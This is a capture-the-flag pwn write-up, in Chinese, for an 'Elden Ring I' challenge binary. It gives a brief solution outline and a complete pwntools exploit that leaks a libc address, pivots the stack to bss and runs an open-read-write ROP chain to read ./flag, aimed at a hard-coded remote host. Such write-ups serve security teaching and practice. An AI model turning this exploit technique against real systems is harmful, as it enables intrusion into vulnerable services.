

# Elden Ring I

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules



## 解题思路

~~先看6秒落叶~~

进入`vuln`函数栈溢出，但是只有5*8字节，同时禁用了execve，只能打orw，
但是orw又需要大量的空间，因此可以先后泄露libc，栈迁移，在bss上打orw就会方便的多，
还可以方便放置"./flag"

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32297)
        libc = ELF('./libc.so.6')
    elf = ELF('eldering')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.symbols['read']
    vulnAddr = elf.symbols['vuln']
    popRdiAddr = 0x4013e3
    bssHigh = 0x404800
    bssStore = 0x404a00
    gadgets = ROP(libc)

    # payload 1, leak libc addr
    sh.recvuntil(b'accord.\n\n')
    sh.sendline(b'0'*0x108 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))
    print('payload 1 sent')

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    writeAddr = libcBase + libc.symbols['write']
    popRsiAddr = libcBase + gadgets.rsi.address
    popRdxAddr = libcBase + gadgets.rdx.address

    # payload 2, stack pivot to bss
    sh.recvuntil(b'accord.\n\n')
    leaveRet = 0x401290
    sh.sendline(b'0'*0x100 + p64(bssHigh) + p64(popRsiAddr) + p64(bssHigh) + p64(readPlt) + p64(leaveRet))
    print('payload 2 sent')
    sleep(0.5) # in case payload is concated

    # payload 3, do orw in bss
    sh.sendline(b'./flag\0\0' + p64(popRdiAddr) + p64(bssHigh) + p64(popRsiAddr) + p64(0) + p64(openAddr) +
                p64(popRdiAddr) + p64(3) + p64(popRsiAddr) + p64(bssStore) + p64(popRdxAddr) + p64(0x50) + p64(readPlt) +
                p64(popRdiAddr) + p64(bssStore) + p64(putsPlt))
    print('payload 3 sent')

    sh.interactive()
```
